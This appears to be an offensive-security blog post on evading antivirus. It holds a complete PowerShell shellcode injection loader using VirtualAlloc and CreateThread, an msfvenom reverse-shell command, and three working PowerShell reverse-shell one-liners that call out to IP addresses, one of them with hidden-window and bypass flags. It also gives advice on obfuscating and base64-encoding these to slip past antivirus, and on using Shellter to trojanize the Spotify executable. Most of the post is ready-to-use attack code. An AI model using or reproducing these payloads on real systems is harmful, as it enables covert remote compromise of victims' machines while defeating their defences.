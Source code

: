 ```yaml
---
layout: post
title: Evading AV
titledate: 09/09/23
tags: ["infosec","offsec", "exploit", "evasion", "shell", "powershell", "shellter"]
---
```


#### Evading Avira

One technique is to use variable obfuscation or randomization

AVs generally match text files pretty closely so we can try to randomize variables when possible

The following is a known powershell memory injection script

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

The script imports VirtualAlloc and CreateThread from kernel32 and then memset from msvcrt

This script allows us to allocate memory and execute code in a newly created thread for the current powershell process

we can use msfvenom to create our shellcode payload

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f powershell -v sc

to avoid AV detection we can try to randomize the variable names

#### Further Evading

If this script is still detected we can try to use a powershell one liner reverse shell 

### $ $client = New-Object System.Net.Sockets.TCPClient("192.168.45.154",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

And

    $ powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


And then we can encode it with this script https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py 

This script takes a powershell command and base64 encodes it to be passed as a parameter to powershell

#### Automate Evasions with Shellter

shellter is a shellcode injection tool

we can run the tool in Auto or Manual mode

enable stealth mode to continue normal application execution after the exploit code is triggered

in the following example we inject a payload in the spotify executable

![_config.yml]({{ site.baseurl }}/images/exploitation/shellter.png)

now we can send our payload to our windows system

i do this with by hosting a python upload download server

    $ python3 -m uploadserver

### NOTE: if receiving a connect from the victim server but shell terminates with netcat, setup meterpreter listener or try stageless payload

### TODO: Write script to generate all shellcode option files based off of ip addr and port arguments - arch, format, bad chars, shellcode type etc


